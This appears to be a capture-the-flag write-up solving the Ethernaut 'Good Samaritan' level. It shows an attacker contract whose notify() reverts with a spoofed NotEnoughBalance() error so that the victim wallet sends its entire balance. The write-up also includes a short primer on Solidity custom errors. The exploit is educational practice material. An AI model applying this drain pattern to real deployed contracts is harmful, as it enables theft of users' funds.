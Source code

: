 # 27) Good Samaritan

Success condition:
> This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.
Would you be able to drain all the balance from his Wallet?
Things that might help:
Solidity Custom Errors 

We need to drain the contract, we can call `requestDonation()` which will drain 10 coin at the time, and while this function has a reentrancy vulnerability (it calls our attack contract's notify() function), the gas cost would be way too high.

If we take a look at  `requestDonation()`:
```solidity
function requestDonation() external returns (bool enoughBalance) {
    // donate 10 coins to requester
    try wallet.donate10(msg.sender) { //regular logic of the function, simply transfer 10 coin
        return true;
    } catch (bytes memory err) { //but if an error occur and this error is "NotEnoughBalance()", the wallet will transfer all remaining coins
        if (
            keccak256(abi.encodeWithSignature("NotEnoughBalance()")) ==
            keccak256(err)
        ) {
            // send the coins left
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```
We can that it check for error during `donate10()`.
If we can manage to throw a "NotEnoughBalance()" error during the regular execution of the function (while there is still a lot of coins) we can get all of them transfer to us. Since `transfer()` call a function on our attack contract (if we call `requestDonation()` from a contract):
```solidity
if (dest_.isContract()) {
    // notify contract
    INotifyable(dest_).notify(amount_);
}
```
We can send that error in this function.

Our attack contract need a function that will call `donate10()` to start the attack, and then implement a `notify()` function that will throw the error:
```solidity
function notify(uint256 amount) external pure {
    //we dont want an error when the contract send us all of the money
    if (amount == 10) {
        revert NotEnoughBalance();
    }
}
```
When the victim contract call our `notify()`, an error will be thrown, which will call `wallet.transferRemainder(msg.sender)` which sends us the funds (and call `notify()` again but this time no error will be thrown.)
We can check that we have received the funds with:
```python
coin_address = good_samaritan.coin()
coin = Contract.from_abi(Coin._name, coin_address, Coin.abi)
print(f" Balance: {coin.balances(attack_contract)}")
```

### Note
Since rinkeby is gone, I now deployed the solution to [goerli](https://goerli.etherscan.io/address/0x9f02f295c3ceb8bdaa87b1d2441687f7301dc4c9).

---
### Custom Errors

Solidity 0.8.4 add a new way to throw errors that is more gas efficient (no need to save the string on the contract during deployment) than what we previously had to use eg.:
```solidity
(require(amount>0, "Contract: amount needs to be positive"))
```
We can now create a custom error:
```
error NegativeAmount(uint256 amount);
```
And use it like this:
```solidity
if (amount < 0)
    revert NegativeAmount({amount: amount});
```
The great thing with this new error statement is that you can return parameters.  
[Solidity blog](https://blog.soliditylang.org/2021/04/21/custom-errors/)  
[Solidity-by-example](https://solidity-by-example.org/error/)


---
## Level completed!

Congratulations! You have completed the level. Have a look at the Solidity code for the contract you just interacted with below.

Godspeed!!